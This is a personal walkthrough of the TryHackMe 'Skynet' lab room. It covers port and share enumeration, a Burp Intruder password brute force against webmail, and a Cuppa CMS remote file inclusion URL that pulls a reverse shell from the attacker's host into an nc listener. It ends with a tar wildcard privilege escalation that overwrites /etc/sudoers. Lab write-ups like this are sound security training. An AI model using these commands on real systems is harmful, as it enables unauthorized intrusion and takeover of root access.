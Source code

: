 ## Skynet
---
THM Skynet Room Walkthrough: https://tryhackme.com/room/skynet



## Summary
---
- 



## Difficulties/Lessons Learned
---
- 



## Walkthrough
---
Let's first begin by checking the IP and see if we have a website linked to it.

Visiting the IP leads us to a SKYNET website

![](attachments/Pasted%20image%2020250202211534.png)

Searching does nothing. Let's try enumerating the open ports as well as the subdirectories. 

We will use the following commands

```bash
nmap -sS -sV -sC -Pn 10.10.221.5 


```

Looks like ports 22, 80, 110, 139, 143, and 445 are open and there seems to be a Samba share at 445. 

![](attachments/Pasted%20image%2020250202211735.png)

Gobuster also gives us some subdirectories we can check out.

![](attachments/Pasted%20image%2020250202211909.png)

Let's try enumerating the samba share first with the following command

```bash
smbclient -L //10.10.221.5
```

![](attachments/Pasted%20image%2020250202212048.png)

We have a few shares. Trying to connect to them allows us in the Anonymous share where we can get a file called attention.txt and 3 log files.

Reading the files gives us a message from Miles Dyson which is the same name as the other Samba share we can't access. The log1.txt file also gives us a huge list of what looks like passwords. We may be able to use these on the websites or the other share.

Let's check the directories we got earlier to see if we can find any more info there.

The only page we get access to is squirrelmail with a login prompt. Trying admin/admin doesn't work. Let's try milesdyson with the list we had earlier. It's easier and quicker to test for me than brute forcing the passwords on the smbshare.

![](attachments/Pasted%20image%2020250202214001.png)

We will first capture a login request using burpsuite and then send the request to intruder with the log1.txt file as the password list. I'll also create a quick list of possible usernames in case the login is case sensitive, as well as admin.

![](attachments/Pasted%20image%2020250202214216.png)

Rerouting the web traffic with FoxyProxy to Burpsuite and sending a request gives us this request

![](attachments/Pasted%20image%2020250202214426.png)

After sending it to intruder we have this with the before mentioned payloads.

![](attachments/Pasted%20image%2020250202214534.png)

It looks like we may have a hit. 

![](attachments/Pasted%20image%2020250202214914.png)

Let's try logging in with this information. We are in!

![](attachments/Pasted%20image%2020250202215145.png)

The bottom two email have the same text (one in binary and one in plain text) of some random words, the top email has information about an SMB password.

![](attachments/Pasted%20image%2020250202215256.png)

Let's try logging into the milesdyson share with this since that is who the e-mail is addressed to.

This does not work. The passwords from the password list also do not work.

Let's try connecting via SSH with milesdyson. This also doesn't work.

Let's try connecting to the Samba share as admin or milesdyson. User milesdyson does in fact work!

```bash
smbclient //<TARGET_IP>/milesdyson -U "milesdyson"
```

![](attachments/Pasted%20image%2020250202222028.png)

When checking dir we can see a folder called "notes". Upon inspection it has a files called "important.txt" which I will download with 

```bash
get important.txt
```

Reading it gives us

![](attachments/Pasted%20image%2020250202222257.png)

CMS may stand for Content Management System and the characters may be a domain. Let's see if it is a subdomain of our IP. 

It is a page but it does not help us any further. There are no links on the page. I tried recursively enumerating the subdomains earlier, so let's try that here as well.

![](attachments/Pasted%20image%2020250202222424.png)

```bash
gobuster -u http://10.10.221.5/45kra24zxs28v3yd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt dir
```

We get a subdomain called /administrator running Cuppa CMS with a login form. Let's try admin/admin and the credentials we learned earlier.

These do not seem to work. Let's see if there is an exploit for Cuppa that is publicly available. A quick google search leads us to https://www.exploit-db.com/exploits/25971

It looks like we can inject a text file that will be read as php and maybe catch a reverse shell. Let's use [pentestmonkeys reverse php script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) since it usually works best for me, set up a listener, and see if this works. We should also host a webserver to upload the payload.

```bash
nc -lvp 4444
```

```bash
python3 -m http.server 80
```

The exploits states the following URL we should use

```bash
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
```

Adjusted that means we should have the following (assuming we are in the /cuppa directory)

```bash
http://10.10.221.5/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.101.68/rev.txt?
```

Let's try running this and see if our listener catches a reverse shell.

It does and we can get our first user flag.

![](attachments/Pasted%20image%2020250202224535.png)

Let's also upgrade the shell with the following commands

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

# Background shell with ctrl+z

stty raw -echo; fg
```

Let's check our permissions with 

```bash
sudo -l
```

Unfortunately, we don't have the ability since we need a password. The one previously does not work.

Let's check cron jobs with

```bash
cat /etc/crontab
```


It looks like we have some backup.sh script running every minute as root. Let's check it out. The script inside reveals the following

```bash
tar cf /home/milesdyson/backups/backup.tgz *
```

So it looks like we are creating a backup of the files in the folder that the scrip is located in. It looks like it backs up ALL files due to * being used. 

After a quick google search it looks like there is a privilege escalation vector here as documented her: https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa

Since we are backing up all files, it looks like we can exploit that with crontabs checkpoints function which allows us to execute an action, and since we are running as root, we should be able to escalate. Following the instructions in the write up above, we are now root! The one thing to note, is that we had to change 

```bash
# 1. Create files in the current directory called
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'

# 2. Create a privesc.sh bash script, that allows for privilege escalation
#malicous.sh:
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

to this, to accomodate for our username (www-data):

```bash
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
echo 'www-data ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

![](attachments/Pasted%20image%2020250203233247.png)
With this privesc, we can now find the root flag in /root and we are done.